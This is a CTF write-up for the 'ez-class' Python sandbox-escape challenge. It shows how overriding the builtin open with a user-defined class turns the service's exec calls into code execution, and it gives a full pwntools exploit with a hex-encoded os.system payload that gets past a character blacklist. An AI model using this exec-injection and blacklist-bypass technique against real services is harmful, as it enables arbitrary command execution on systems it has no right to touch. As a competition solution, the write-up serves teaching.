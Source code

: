 # ez-class (misc, 375 points, 17 solves)

>This one is pretty ez
```shell
nc ezclass.bctf23-codelab.kctf.cloud 1337
```

This challenge was my favorite. Thanks to the organizers for this wonderful CTF!

## Overview
This challenge is about a service that gives us the possibility to create and run classes.
We can specify:
- The class name
- The parent class
- The mumber of methods
- The method names
- The method params
- The method bodies

There is no blacklist except for this little one here: `().\n`
We can run a class and also its dependencies. After executing the class, the service returns us an instance of the specified class.

## The first idea
How are we going to execute code if the only thing that gets done is loading the class and instantiating the object?

The first idea that came to my mind is to do some ✨**magic**✨ using [magic functions](https://www.tutorialsteacher.com/python/magic-methods-in-python).
There are so many! But a useful one is [`__new__`](https://www.pythontutorial.net/python-oop/python-__new__/):

>When you create an instance of a class, Python first calls the `__new__()` method to create the object and then calls the `__init__()` method to initialize the object’s attributes.

Using `__new__`, we can return some values and we can execute code, but we can't call functions yet.

Let's take a look at how the classes are loaded:
```python
def exec_class(filename, dependancies, class_name):
    for dep in dependancies:
        with open('/tmp/' + dep, 'r') as f:
            exec(f.read())

    with open('/tmp/' + filename, 'r') as f:
        exec(f.read())

    print('Here is an instance of your class')
    print(locals()[class_name]())
```

If we're able to override `read()` we can get RCE.

## It's time to get out of the pyjail!
We need to:
- Override the `open` function with a class
- Override the `read` with our custom method which needs to return the code to print the flag
- Profit

The class will look like this:
```python
class open(object):
    def __init__(filename,*args):
        pass

    def __enter__(self):
        return self

    def __exit__(*args):
        pass

    def read(self):
        global open;open=self;return "\x69\x6d\x70\x6f\x72\x74\x20\x6f\x73\x3b\x6f\x73\x2e\x73\x79\x73\x74\x65\x6d\x28\x27\x63\x61\x74\x20\x2f\x74\x6d\x70\x2f\x66\x6c\x61\x67\x2e\x74\x78\x74\x27\x29"
```

We also need to add `__enter__` and `__exit__` because they're automatically called by the `with` operator.
Inside the `read` method, we override the `open` function with our instance of the class `self` and then, we return the code to print the flag.

Now we can create this class inside the service and then run it.
The service will also ask us to specify the dependencies of the class to be executed, we put the class created before.

So the service will behave like this:
Here, we override the open function with our class:

```python
for dep in dependancies:
    with open('/tmp/' + dep, 'r') as f:
        exec(f.read())
```

Now that we've overridden the open function, the code passed above to print the flag will be executed here:
```python
with open('/tmp/' + filename, 'r') as f:
    exec(f.read())
```

The service will then crash at this instruction, but we don't care😈:
```python
print(locals()[class_name]())
```

## The exploit

```python
from pwn import remote

def create_class(p, classname, parent, functions):
    print(f"Creating class {classname}")
    p.sendline(b"1")
    p.sendline(classname.encode())
    p.sendline(parent.encode())
    p.sendline(f"{len(functions)}".encode())
    for function in functions:
        p.sendline(function["name"].encode())
        p.sendline(function["params"].encode())
        p.sendline(function["body"].encode())
    print("Done!")


def run_class(p, torun, dep):
    print(f"Running class {torun}")
    p.sendline(b"2")
    p.sendline(torun.encode())
    p.sendline(dep.encode())
    print("Done!")

def bypass_char_blacklist(code):
    result = ""
    for char in code:
        result += "\\x" + hex(ord(char))[2:].zfill(2)
    return result

clean_code = """
import os
os.system('cat /tmp/flag.txt')
"""

to_exec = bypass_char_blacklist(clean_code)

r = remote("ezclass.bctf23-codelab.kctf.cloud", 1337)

fake_open_classname = "open"
fake_open_parent = "object"
fake_open_functions = [
    {"name": "__init__", "params": "filename,*args", "body": "pass"},
    {"name": "__enter__", "params": "self", "body": "return self"},
    {"name": "__exit__", "params": "*args", "body": "pass"},
    {"name": "read", "params": "self", "body": f"global open;open=self;return \"{to_exec}\""}
]

create_class(r, fake_open_classname, fake_open_parent, fake_open_functions)
run_class(r, fake_open_classname, fake_open_classname)

r.interactive()
```

### Output:
**EZ!**

![EZ!](https://i.imgur.com/2BC2X35.png)

